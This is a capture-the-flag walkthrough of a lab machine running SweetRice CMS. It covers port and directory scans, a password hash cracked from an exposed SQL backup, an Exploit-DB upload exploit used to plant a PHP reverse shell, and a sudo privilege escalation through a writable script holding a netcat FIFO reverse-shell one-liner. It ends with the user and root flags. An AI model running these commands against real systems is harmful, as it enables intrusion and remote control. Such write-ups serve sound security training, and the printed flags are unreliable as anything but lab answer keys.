



<head>
<h1><center>Break Out The Cage</center></h1>
</head>

## Description



<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are three open ports on the machine.

```
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp    open     tcpwrapped
10082/tcp filtered amandaidx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80

Going over to the port 80 shows default Apache webpage.

Directory Scan shows some interesing pages

```
403      GET        9l       28w      277c http://10.10.60.215/.htpasswd
403      GET        9l       28w      277c http://10.10.60.215/.htaccess
301      GET        9l       28w      314c http://10.10.60.215/content
301      GET        9l       28w      325c http://10.10.60.215/content/attachment
403      GET        9l       28w      277c http://10.10.60.215/server-status
200      GET       15l       74w     3338c http://10.10.60.215/icons/ubuntu-logo.png
200      GET      375l      968w    11321c http://10.10.60.215/index.html
403      GET        9l       28w      277c http://10.10.60.215/icons/
301      GET        9l       28w      318c http://10.10.60.215/content/inc
200      GET       36l      151w     2198c http://10.10.60.215/content/index.php
```

Here the most interesting directories are `/content/` and `/content/attachment/`

Visiting `/content/` shows some kind of website under development.



At this point we know that this website is using `SweetRice CMS`.

Now searching for the exploits we find this [script](https://www.exploit-db.com/download/40716)


Now checking the `attachments` we can find this file `mysql_bakup_20191129023059-1.5.1.sql` which has username, password hash.
Using [CrackStation](https://crackstation.net) we can find the password.

```
username : manager
password : Password123
```

Now using the above script we can upload a reverse shell onto the machine.

Here I have used the PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)


Heading over to the url `http://10.10.60.215/content/attachment/penmonkey.php5` gives us the shell.
After getting shell in order to stabilize it we can use Python.

```
python -c "import pty; pty.spawn('/bin/bash')"
```

Learn more about stabilizing shells [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat)

<br>

## Machine

We are logged in as `www-data`.

Now `sudo -l` command shows us this

```
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Now checking the script `backup.pl`

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Ahh!! Another script..😫

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Whoa It's a reverse shell..
And we have write access to this file

Change the host IP and port to our local machine's IP and running the command `sudo /usr/bin/perl /home/itguy/backup.pl` will give us the shell as `root`.

<br>

user flag

```
THM{63e5bce9271952aad1113b6f1ac28a07}
```

root flag

```
THM{6637f41d0177b6f37cb20d775124699f}
```
